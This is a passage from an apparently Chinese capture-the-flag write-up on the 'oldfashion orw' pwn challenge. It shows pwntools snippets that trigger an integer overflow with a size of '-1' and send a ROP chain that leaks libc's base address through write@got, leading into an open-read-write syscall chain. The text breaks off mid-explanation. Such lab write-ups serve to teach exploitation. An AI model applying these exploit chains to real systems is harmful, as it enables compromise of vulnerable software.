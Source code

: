 [![](assets/1698893341-1533c8977985a2018ede8e3acc82002d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231026121808-aaca1eca-73b6-1.png)

存在整形溢出

```bash
p.sendlineafter('size?\n','-1')
```

获取 libc 基址：

```bash
pl = b'a'*0x38+p64(rdi)+p64(1)+p64(rsi_r15)+p64(write_got)+p64(0)+p64(write_plt)+p64(main)
p.send(pl)
libc_base = uu64(p.recvuntil('\x7f')[-6:])-libc.sym['write']
li(hex(libc_base))
```

[![](assets/1698893341-3b5fed30e4b88776c0c1264dc0cc2f45.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231026121823-b4339608-73b6-1.png)

我们获取 libc 基址后，便可得到系统调用 syscall，下面就可以根据调用号开始构造函数

[linux 系统调用号表](https://blog.csdn.net/qq_29343201/article/details/52209588)

###### OGW:

由于我是对 NSSCTF 收录的 18 版本的 oldfashion orw 进行复现，所以这道题和原版的 20 版本的 oldfashion orw 有些差距，同时还缺少了一个提示性文件：

stat.sh:
